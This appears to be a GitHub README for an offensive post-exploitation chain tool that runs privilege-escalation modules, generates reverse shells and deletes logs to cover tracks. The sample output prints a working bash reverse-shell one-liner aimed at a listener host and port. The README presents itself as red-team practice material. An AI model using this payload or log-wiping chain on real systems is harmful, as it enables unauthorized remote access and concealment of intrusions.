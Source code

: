 # ExploitChainAutomator

## Description

ExploitChainAutomator is a modular post-exploitation chain executor designed for real-world offensive security scenarios. It automates multi-stage attacks after initial access, supporting chained local privilege escalation, reverse shell generation, and cleanup operations. By simulating adversary behavior, it helps red teamers practice realistic post-exploitation workflows with configurable, pluggable exploit modules.

## Features

* Modular CVE runner (e.g., DirtyPipe, PwnKit)
* Reverse shell payload generator
* Auto-escalate and execute multi-stage chains
* Optional cleanup/log deletion
* Logs all command execution and output
* Structured JSON output for audit/reporting
* Interactive or batch execution modes

## Installation

```bash
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

## Usage

```bash
python3 main.py -c configs/config.yaml -o scans/results.json
```

Use `-i` for interactive mode:

```bash
python3 main.py -c configs/config.yaml -o scans/results.json -i
```

## Configuration

**configs/config.yaml**

```yaml
chain:
  - module: "detect_user"
    params: {}

  - module: "dirtypipe_exploit"
    params:
      lpe: true

  - module: "reverse_shell"
    params:
      lhost: "192.168.1.100"
      lport: 4444
      shell_type: "bash"

  - module: "cleanup"
    params:
      delete_logs: true
```

## Example Modules

* **detect\_user.py**

  * Detects current user and UID.
* **dirtypipe\_exploit.py**

  * Simulates a DirtyPipe privilege escalation.
* **reverse\_shell.py**

  * Generates a reverse shell payload for manual execution.
* **cleanup.py**

  * Optionally deletes logs to cover tracks.

## Example Output

**scans/results.json**

```json
{
  "context": {
    "user": "kali",
    "uid": "1000"
  },
  "chain_results": [
    {
      "module": "detect_user",
      "output": {"user": "kali", "uid": "1000"}
    },
    {
      "module": "dirtypipe_exploit",
      "output": {
        "status": "simulated LPE success",
        "new_user": "root",
        "method": "DirtyPipe"
      }
    },
    {
      "module": "reverse_shell",
      "output": {
        "generated_payload": "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1",
        "note": "Payload not executed for safety. Paste into target manually."
      }
    },
    {
      "module": "cleanup",
      "output": {"status": "logs deleted"}
    }
  ]
}
```
![Exploit Chain Automation Tool](https://raw.githubusercontent.com/mchyasn/cybersecurity-tools/main/02-Vulnerability-Scanning-and-Exploitation/ExploitChainAutomator/screenshots/0.png)
![Exploit Chain Automation Tool](https://raw.githubusercontent.com/mchyasn/cybersecurity-tools/main/02-Vulnerability-Scanning-and-Exploitation/ExploitChainAutomator/screenshots/1.png)
## License

MIT

## Disclaimer

🔥 For educational use only. Do not run without authorization.

## Author

mchyasn
